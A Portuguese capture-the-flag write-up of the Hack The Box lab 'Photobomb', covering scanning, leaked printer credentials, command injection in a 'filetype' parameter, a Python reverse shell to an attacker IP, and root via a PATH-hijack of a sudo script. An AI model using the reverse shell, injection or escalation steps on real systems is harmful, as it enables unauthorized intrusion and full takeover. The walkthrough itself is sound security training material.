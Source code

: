 # Photobomb.md

Varredura com nmap
~~~py
nmap -sV -Pn -sC 10.10.11.182              
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-29 18:47 -03
Nmap scan report for 10.10.11.182
Host is up (0.14s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.99 seconds
~~~

Parece que a porta 22/tcp e a porta 80/tcp estão abertas.

Como sempre, quando vemos um endereço da web, queremos adicioná-lo ao nosso arquivo **/etc/hosts**.

Vamos enumerar os diretórios utilizando a ferramenta dirsearch

~~~bash
dirsearch -u photobomb.htb

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /root/.dirsearch/reports/photobomb.htb_22-11-29_19-39-22.txt

Error Log: /root/.dirsearch/logs/errors-22-11-29_19-39-22.log

Target: http://photobomb.htb/

[19:39:23] Starting: 
[19:40:32] 200 -   11KB - /favicon.ico
[19:41:00] 401 -  590B  - /printer

Task Completed
~~~

Agora analisando o código fonte da página existe um arquivo .js que revele o seguinte
~~~js
http://pH0t0:b0Mb!@photobomb.htb/printer
~~~
Ao entrar nesse link fui conectado automaticamente como o usuario _pH0t0_. 

Parece que esta página pode ser usada para baixar imagens de vários tamanhos nos formatos de arquivo JPG ou PNG. Gostaria de saber se esta forma pode ser explorada?

Vamos tentar testar vulnerabilidades de injeção. No Burp Suite, na guia “Proxy”, abra o navegador proxy e navegue até [http://pH0t0:b0Mb!@photobomb.htb/printer](http://pH0t0:b0Mb!@photobomb.htb/printer)

Certifique-se de que o botão de interceptação esteja ativado, volte para o navegador proxy e baixe uma foto do site.  
  
De volta ao Burp Suite, você deve ver uma solicitação POST, que é basicamente uma solicitação solicitando o arquivo ao servidor. Encaminhe esta primeira solicitação, pois o servidor nos solicitará uma segunda solicitação que seja autenticada. Agora você deve ver a segunda solicitação POST, e esta é a que precisamos.

Vá para a aba “Repeater” no Burp, e você verá nossa solicitação lá. Como você pode ver, temos três parâmetros aqui que podemos testar para injeções. São eles: foto, tipo de arquivo e dimensões. Depois de manipular cada parâmetro, descobrimos que o parâmetro “filetype” pode ser vulnerável à injeção. Como você pode ver abaixo, alterar o valor de “filetype” para “jpg;ls” retorna um “500 Internal Server Error”. Um erro interno do servidor é uma pista de que pode haver uma vulnerabilidade de injeção de comando aqui.

Vamos tentar explorar isso criando um shell reverso e lançando-o por meio desse ponto de injeção:
~~~python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.87",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
~~~

Agora codifique o payload no modo URL dentro do Burp Suite e coloque o payload em _filetype=_ use um _;_ apos o _jpg_ e pronto, consegui a shell reversa.
Em /home/wizard é possivel localizar a flag de user.

----
Agora é necessario encontrar a flag de root.

Vamos executar sudo -l para ver o que podemos fazer como usuário “wizard”.

De nossa saída, você pode dizer que o usuário “wizard” é capaz de executar cleanup.sh como root. Além disso, “NOPASSWD” significa que isso pode ser feito sem uma senha.

Parece que o script pega o arquivo de log photobomb.log e o move para photobomb.log.old. Em seguida, usa truncar para excluir o conteúdo de photobomb.log.

Algo que notamos aqui é que o arquivo faz referência a outros arquivos, o que significa que podemos editar o $PATH para acessar outros arquivos:

~~~bash
echo bash > find
chmod +x find
sudo PATH=$PWD:$PATH /opt/cleanup.sh
~~~

apos isso vá até o arquivo root.txt e pegue a flag.

